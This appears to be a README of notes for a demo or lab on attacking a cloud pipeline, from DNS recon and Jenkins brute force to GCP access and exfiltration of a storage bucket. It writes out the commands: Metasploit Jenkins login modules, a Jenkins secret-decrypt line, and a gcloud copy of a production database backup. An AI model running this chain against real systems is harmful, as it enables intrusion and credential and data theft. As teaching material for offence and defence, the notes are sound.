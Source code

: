 # Notes

## Agenda

1. [Getting To Know / DNS Recon](./02_gettingKnow.md)
2. [Jenkins Enum](./03_jenkinsEnum.md)
3. [Jenkins BruteForce](./04_jenkinsBruteforce.md)
4. [Jenkins Recon / Secret Decrypt](./05_jenkinsDecrypt.md)
6. [GCP Login / Lookaround](./06_cloudAccess.md)
7. [Kubernetes Lookaround](./07_kubernetesLookaround.md)
8. [Storage Exfiltrate](./08_storageExfiltrate.md)
9. [What Would Defend](./09_whatWouldDefend.md)

## Some Notes IC-ME

### DNS Reconnaissance

```bash
dnsrecon -t brt -d nevervictimconsult.xyz --threads 25 -D /usr/share/wordlists/subdomains-top1million-5000.txt
```

### Jenkins BruteForce

```bash
[...]
use auxiliary/scanner/http/jenkins_enum
[...]
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
[...]
use auxiliary/scanner/http/jenkins_login
set LOGIN_URL j_spring_security_check
set STOP_ON_SUCCESS true
```

### Cloud Access

```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

```bash
gcloud auth activate-service-account --key-file=gcpSa.json
gcloud init --console-only
[...]
gcloud container clusters get-credentials --region=europe-west3 conduit-k8s-test
[...]
gcloud storage cp -r gs://conduit-database-backup-prod/ .
```

</details>
